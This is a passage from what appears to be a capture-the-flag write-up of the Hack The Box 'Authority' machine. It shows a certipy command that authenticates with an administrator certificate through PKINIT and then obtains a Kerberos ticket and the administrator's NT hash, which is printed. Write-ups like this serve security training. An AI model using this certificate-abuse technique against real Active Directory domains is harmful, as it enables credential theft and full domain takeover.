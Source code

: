 And then as if by magic, `PKINIT` now works giving us a `TGT` from the certificate!

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy auth -pfx administrator_authority.pfx -dc-ip 10.129.235.244 
Certipy v4.3.0 - by Oliver Lyak (ly4k)
[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@authority.htb': aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed
```

![image-34.png](/assets/img/Authority/image-34.png)

I thought including this error deliberately was an awesome to learn a way to get around this error by authenticating to ldap. Definitely a cool trick to know - awesome box 😄 